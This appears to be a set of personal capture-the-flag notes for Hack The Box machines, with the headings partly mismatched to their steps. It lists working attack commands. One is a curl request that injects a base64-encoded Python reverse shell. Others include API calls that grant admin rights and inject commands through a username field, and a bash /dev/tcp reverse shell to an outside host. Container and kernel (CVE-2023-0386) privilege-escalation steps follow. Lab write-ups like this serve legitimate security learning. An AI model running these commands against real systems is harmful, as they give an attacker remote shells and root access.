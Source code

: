 ## Table of Contents

- [MonitorsTwo (HTB)](#monitorstwo\(htb))
- [2Million (HTB)](#2million\(htb))

SSRF vulnerbility
nmap -A -sC -sV -T4 $ip -oN sau.scan

on the webpage(55555) 

to trigger the SSRF-> 

set up a path for the basket by clicking on the settings button.
(path -> http://127.0.0.1:80/)
set extend forward path on + proxy response

trigger the vuln by going to http://MACHINE_IP:55555/basketName

mailtrail has unauthenticated OS command injection, base64 encode a python reverse shell one-liner then run the unauth rce exploit>
curl 'http://10.10.11.224:55555/htb/login' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjQiLDY5NjkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn | base64 -d | bash`'

after running linpeas etc>>

sudo /usr/bin/systemctl status trail.service

!sh

root!

# MonitorsTwo (HTB)






# 2Million (HTB)
1. Nmap 
2. Search for CVE for Cacti 1.2.2
3. get shell using exploit
4. enumerate
5. cat entrypoint.sh and dockerenv
6. find sql db creds
7. enumerate db
8. ./capsh --gid=0 --uid=0 --
9. mysql --host=db --user=root cacti -e "SELECT * FROM user_auth"
10. find creds to ssh using marcus' account. 
11. crack bcrypt hash using hashcat -m 3200
12. ssh using marcus
13. priv esc
14. back to shell
15. chmod u+s /bin/bash
16. findmnt
17. ls -la /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
18. /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
19. root!
20. make account
21. enumerate endpoints with the PHPSESSID
22. curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"email":"test@2million.htb", "is_admin": true}' | jq
23. curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;id;"}' uid=33(www-data) gid=33(www-data) groups=33(www-data)
24. bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
25. rev shell!. 

To use CVE-2023-0386:
git clone https://github.com/xkaneiki/CVE-2023-0386
cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &

Then execute the exp binary in the foreground
./exp

Root!
